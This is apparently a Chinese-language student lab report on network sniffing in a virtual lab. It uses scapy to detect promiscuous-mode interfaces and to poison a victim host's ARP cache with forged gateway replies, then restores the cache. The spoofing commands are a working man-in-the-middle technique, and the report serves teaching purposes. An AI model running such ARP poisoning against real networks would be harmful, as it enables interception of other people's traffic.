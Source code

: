 # 实验四 网络监听

### 实验环境

**拓扑图**

<img title="" src="img/Topology.png" alt="" data-align="center">

**网络配置**

- 网关
  
  `08 : 00 : 27 : 4b : a0 : 35/enp0s9`
  
  `172.16.111.1`
  
  <img title="" src="img/gatewayIP.png" alt="" data-align="center">

- 攻击者主机
  
  `08 : 00 : 27 : 15 : 1a : 80/eth0`
  
  `172.16.111.120`
  
  <img src="./img/attacker.png" title="" alt="" data-align="center">

- 受害者主机
  
  `08 : 00 : 27 : 79 : f4 : 83/eth0`
  
  `172.16.111.121`
  
  <img title="" src="img/victim.png" alt="" data-align="center">

### 准备工作

**安装scapy**

在攻击者主机上提前安装好 [scapy](https://scapy.net/)

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

<img src="img/Installscapy.png" title="" alt="" data-align="center">

### 实验1 检测局域网中的异常中断

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```

<img title="" src="img/Check%20the%20promiscuous%20mode2.png" alt="" data-align="center">

```bash
# 在攻击者主机上开启 scapy
sudo scapy
```

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")

# 注意上述输出结果里应该没有出现 PROMISC 字符
```

<img src="img/promiscping.png" title="" alt="" data-align="center">

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](img/enablepromisc.png)

再回到攻击者主机执行`promiscping` 命令

```bash
pkt = promiscping("172.16.111.121")
```

<img src="img/promiscpingsuccess.png" title="" alt="" data-align="center">

可以看出在混杂模式下，受害者主机收到了这个数据包

下面是用wireshark观察受害者主机的eth0网卡

<img src="img/wireshark.png" title="" alt="" data-align="center">

可以发现收到了promiscping 命令发送的 ARP数据包

通过对比是否开启网卡的**混杂模式**的两种情况，发现发送出去的数据包在没有指定目的主机的MAC地址时，普通模式下发送不会成功

### 实验2 手工单步“毒化”目标主机ARP缓存

“毒化”过程均在攻击者主机的`scapy`交互式终端进行

- **获取当前局域网的网关MAC地址**
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  <img src="img/fakeARP.png" title="" alt="" data-align="center">

- **伪造网关的ARP响应包**
  
  ```bash
  # 准备发送给受害者主机
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:15:1a:80")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  
  ![](img/ARPattack.png)
  
  <img src="img/victimARP.png" title="" alt="" data-align="center">

  网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  
- **恢复受害者主机的ARP缓存记录**
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="172.16.111.121", hwdst="08:00:27:79:f4:23")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  <img src="img/recoverARP1.png" title="" alt="" data-align="center">
  
  在受害者主机上再次查看ARP缓存
  
  <img title="" src="img/recoverARP2.png" alt="" data-align="center">
  
  此时网关也能ping通

### 问题及解决

- scapy命令报错
  
  <img src="img/scapyerro.png" title="" alt="" data-align="center">
  
  改为`sudo scapy`提高一下权限就解决了

- 无法发送伪造的ARP广播包
  
  首先得确保攻击者主机、网关、受害者主机在同一局域网内，我的网卡配置如下：
  
  | 主机    | 网卡                          |
  | ----- | --------------------------- |
  | 攻击者   | 内部网络（internet1）             |
  | 受害者主机 | 内部网络（internet1）             |
  | 网关    | 网络地址转换（NAT）、内部网络（internet1） |
  
  这里需要注意的是：攻击者主机尽量启用唯一网卡，原因是当有多张网卡时，发送ARP广播包时无法从内部网络（internet1）这张网卡发出，既然“发错了局域网”，就会导致无法到达受害者主机

### 参考资料

[How to Install and Use Wireshark on Ubuntu](https://linuxhint.com/install_wireshark_ubuntu/)

[scapy ARP](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)

